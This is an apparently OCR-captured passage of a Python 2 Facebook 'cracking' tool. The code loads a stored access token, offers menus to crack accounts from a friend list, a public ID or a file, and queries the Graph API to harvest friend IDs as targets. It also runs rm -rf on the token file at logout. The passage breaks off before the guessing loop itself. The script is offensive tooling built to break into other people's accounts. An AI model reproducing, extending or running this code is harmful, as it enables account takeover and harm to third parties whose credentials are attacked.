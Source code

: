 	    time.sleep(2)
	    menu()
	elif chb =="7":
	    os.system("xdg-open https://www.facebook.com/100002059014174/posts/2677733205638620/?substory_index=0&app=fbl")
	    time.sleep(1)
	    menu()
	elif chb =="8":
	    os.system("rm -rf ....")
	    print
	    psb(" Logout successfully")
	elif chb =="0":
		exb()
	else:
		print ("[!] Fill in correctly")
		action()


def crack_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 bxi.py")
	print (logo)
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (50*"-")
	crack_action()

def crack_action():
	bch = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if bch =="":
		print ("[!] Fill in correctly")
		crack_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		os.system("clear")
		print (logo)
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			crack_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)